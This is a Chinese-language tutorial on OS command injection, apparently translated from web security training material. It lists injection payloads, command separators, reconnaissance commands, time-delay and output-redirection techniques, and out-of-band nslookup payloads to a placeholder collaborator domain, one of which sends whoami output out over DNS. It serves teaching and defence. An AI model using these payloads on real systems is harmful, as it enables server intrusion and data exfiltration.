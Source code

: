 # 操作系统命令注入

操作系统命令注入（也称为 shell 注入）是一种 Web 安全漏洞，它允许攻击者在运行应用程序的服务器上执行任意操作系统 (OS) 命令，并且通常会完全破坏应用程序及其所有数据。很多时候，攻击者可以利用操作系统命令注入漏洞来破坏托管基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统。

## 执行任意命令

考虑一个购物应用程序，它允许用户查看某个商品是否在特定商店中有库存。此信息可通过以下 URL 访问：

> https://insecure-website.com/stockStatus?productID=381&storeID=29

由于应用程序没有针对操作系统命令注入实施任何防御，攻击者可以提交以下输入来执行任意命令：

>& echo aiwefwlguh &


*备注*
|命令目的|Linux|Windows|
|:---:|:---:|:---:|:---:|
|当前用户名|whoami|whoami|
|操作系统|uname -a|ver|
|网络配置|ifconfig|ipconfig/all|
|网络连接|netstat -an|netstat -an|
|运行进程|ps -ef|tasklist|
以下命令分隔符适用于 Windows 和基于 Unix 的系统：
* &
* &&
* |
* ||
以下命令分隔符仅适用于基于 Unix 的系统：
* '
* $

## 操作系统命令注入盲注

操作系统命令注入的许多实例都是盲漏洞。这意味着应用程序不会在其 HTTP 响应中返回命令的输出。仍然可以利用盲漏洞，但需要不同的技术。

### 利用时间延迟盲注

您可以使用将触发时间延迟的注入命令，允许您根据应用程序响应所需的时间确认命令已执行。该`ping`命令是执行此操作的有效方法，因为它允许您指定要发送的 ICMP 数据包的数量，以及命令运行所需的时间：

> & ping -c 10 127.0.0.1 &
> || ping -c 10 127.0.0.1 ||
> sleep 10


### 通过重定向输出盲注

您可以将注入命令的输出重定向到 Web 根目录中的文件，然后您可以使用浏览器检索该文件。例如，如果应用程序从文件系统位置提供静态资源`/var/www/static`，那么您可以提交以下输入：

>& whoami > /var/www/static/whoami.txt &

该>字符将whoami命令的输出发送到指定的文件。然后，您可以使用浏览器获取https://vulnerable-website.com/whoami.txt以检索文件，并查看注入命令的输出

### 使用外带（OAST）盲注

 可以使用注入命令，使用 OAST 技术触发与您控制的系统的带外网络交互。

>email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||

此有效负载使用该`nslookup`命令对指定域进行 DNS 查找。攻击者可以监视指定的查找发生，从而检测到命令被成功注入

带外通道还提供了一种从注入命令中提取输出的简单方法：

>email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||